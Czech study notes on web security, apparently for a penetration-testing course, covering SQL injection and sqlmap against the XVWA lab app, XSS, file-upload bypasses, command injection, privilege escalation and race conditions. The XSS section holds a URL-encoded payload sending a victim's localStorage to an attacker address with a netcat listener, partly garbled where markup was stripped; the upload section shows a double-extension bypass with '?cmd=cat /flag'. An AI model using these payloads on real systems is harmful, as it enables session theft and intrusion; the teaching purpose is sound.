


# Bezpečnost webových technologií

Slabá místa ve webových aplikacích:

**SQL Injection**

-   Zranitelost, která napadá databázovou vrstvu programu, kde se propojuje s aplikační vrstvou a přes neošetřený vstup následuje vložení kódu a vykonání vlastního pozměňujícího škodlivého SQL příkazu (dotazy DELETE, UPDATE apod.)

-   Díky této technice lze získat například přihlašovací údaje někoho jiného, přihlašovací údaje na admininstrátora apod., v některých případech možnost i měnit samotné data v databázích nebo může u nějakých konfigurací být přístupné i CMD nebo data v souborech

- Nejčastější a nejjednodušší technikou bývá **error based SQLi**

  -   Nejčastější při přihlašování - hodnota v emailu a heslu (textbox)

  - Záleží na syntaxi dané databáze - většinou zjistíme tuto zranitelnost pomocí escapování z „" v jménu, kdy s dvojitou uvozovkou člověk v podstatě vyskočí z očekávaného stringu

    

  - Prevence: Nutnost filtrovat různé mezery, apostrofy apod. jakožto zakázané znaky (sada speciálních znaků)

-   **Escapovací funkce** - V ČR to není příliš častý problém, ale v zahraničí, nejčastěji Americe, tak bývá součástí jména speciální znak (apostrof). V takovou chvíli před apostrof ve jméně je potřeba dát \ - tím bude řečeno databázovému serveru, že apostrof je v tu chvíli jen součást jména a ne apostrof jakožto kód

- Tuto zranitelnost v kódu najdu pokud hodnoty z formuláře jdou přímo do SQL dotazu. V tu chvíli je vstup neošetřený.

  

- <u>BURPSUITE + Proxy a například XVWA (vulnarable aplikace)</u> - Vhodné na pochopení funkce SQLi

- **Syntax error (Error based app)** - 1x apostrof = error / 500, ale když ho zdvojíme, žádná chybová hláška = aplikace je zranitelná

- Existují také **blind** SQLi - Nedávají odezvu v podobě chybových hlášek apod.

  -   Do SQL dotazu dáme sleep (generic blind SQLi.txt) - BURP -\> Intruder

  -   Pokud odpovědi na něco trvají příliš dlouho, opět je to chvíle, kdy je velká pravděpodobnost, že aplikace je zranitelná SQL

  -   Najdeme konkrétní HTML požadavek v browseru, který dáme do sqlmap a ten nám pomůže s analýzou

**Sqlmap**

- Jedná se o open-source program na penetrační testování, který je schopný automatizovat proces zjišťování a analyzování SQLi chyb ve webových aplikacích.

- `sqlmap --url http://recon.local:8082/xvwa/vulnarabilities/sqli_blind/ --data 'item=&search=' p search --dbs`
  - Příklad využití programu sqlmap na XVWA - viz řečeno výše, možnost definovat mnoho parametrů (vyhledávání například uživatelů v databázích, jakožto konkrétní položky apod. - více viz manuál)
- `sqlmap -u <url> --wizard`
  - Sqlmap disponuje také parametrem --wizard, který je nejvíce amatérskou volbou. Nic se nedefinuje a vše je jednodušší, program vyřeší mnoho souvislostí za vás.

**XSS**

- Cross-site scripting = zranitelnost, která se týká klientské strany - JS v prohlížeči - možnost vložit \`
      -   Poté použijeme `netcat -vlp` na portu `444` z pohledu útočníka
  -   Reflected

      -   Funguje na bázi nějakého požadavku odesílaného v URL pomocí GET

      -   Tudíž máme nějakou URL, v který je právě obsažen nějaký script a jakmile ho rozklikne uživatel, tak získáme, co jsme chtěli

      -   Použijeme wget + URL encoder

          -   `http://10.2.0.3/browser/open/%3Cscript%3E%20Http%20%3D%20new%20XMLHttpRequest()%3B%20Http.open(%22GET%22%2C%20%22http%3A%2F%2F10.2.0.2%3A444%2F%3Fa%3D%22%20%2B%20JSON.stringify(localStorage))%3B%20Http.send()%3B%20%3C%2Fscript%3E%20`
  -   DOM

      -   Za parametry ?search=, ?default= apod. dokážeme do URL vložit opět JS, spoléhá na načítání dat v nějaké části aplikace, čistě v rámci front -end bez databází

      -   Méně viditelná zranitelnost na první pohled, nejčastěji se problémy naleznou v kódu v `document.location/write` apod.

      -   Na hledání této zranitelnosti: GITHUB - Regex (Finding DOMXSS)

      -   Funkce unescape vytvoří to, že je možné právě ten script spustit - pokud tam není, tak jsou speciální znaky zakodované na URL coding

      -   Opět stačí pouze odeslat URL jako u Reflected

  

  -   **Co sledovat?** (proof of concept)
  -   1\) Data se musí vracet a vykreslovat
      
  -   2\) Zkusíme potenciálně nebezpečné znaky \<\>/ apod. -\> pokud nejsou encoded, tak potenciální zranitelnost
      
  -   3\) Zjištění na jakém místě se vkládají data v kódu (revize prvku)
      
  -   4\) Možnost že je to v URL, v \
 apod. někdy potřeba nejdřív uzavřít „" a pak teprve JS - Filtry se dají různě obcházet...

**Insecure File Upload**, **Command injection**

-   Na nahrávání nějakého souboru na server umožní kód nahrát například vlastní soubor, který se spustí v databázi (exe, sh apod.) a z ní extrahuje nějaká data, dokáže spouštět příkazy v shellu apod.

-   Většinou vzniká tím, že jsou špatně nastavené filtry, které řeší koncovky souborů nebo není zahrnutý cross-site request

-   Nahraju soubor, který bude mít dvě koncovky (např.: script.jpg.sh), filtr přečte koncovku, která následuje po první tečce a zbytek vypustí -> v tu chvíli se soubor nahraje a je přístupný
    -   V takovou chvíli mohu přes URL operovat například s příkazovou řádku, pokud jsme nahráli zrovna tu (?cmd=cat /flag)

**Logické zranitelnosti**:

- **Eskalace práv**

  -   Objevení nějaké chyby / bugu v aplikaci, která vyvolá to, že útočník získá přístup k možnostem vyšších / jiných uživatelů, které by pro něj měli být zakázané (např. roota)

  -   Rozlišujeme dva typy eskalace práv:

      -   **Vertikální:** Uživatel nižší vrstvy (např. user) se dostane na práva uživatelů vyšší vrstvy (administrátoři apod.)

      -   **Horizontální:** Eskalace ve stejné vrstvě - například User A se dostane ze svého bankovního účtu na účet User B

  - Za příkladem takové eskalalace práv nemusíme chodit daleko. Mnoho z IoS uživatelů v minulosti využilo možnosti Jailbreaku, což je v podstatě právě eskalace práv

    

- **Race condition**

  -   Jedná se o **souběh vykonavatelných příkazů v jednu chvíli**, kdy například ověřuji, vždy při výběru stav účtu, že lze vybrat danou částku, ovšem toto ověření se stane jednou a pod ním je možnost vybrat z účtu a jestliže tento výběr provedu víckrát v jeden přesný moment, tak se již neověřuje, že doopravdy tolik na účtu mám - vyberu více než-li tam doopravdy bylo
  -   Tip: Pokud vám race condition nefunguje, nezapomeňte, že příkaz chceme spustit na pozadí, takže na závěr příkazu přidejte &
      -   https://defuse.ca/race-conditions-in-web-applications.htm

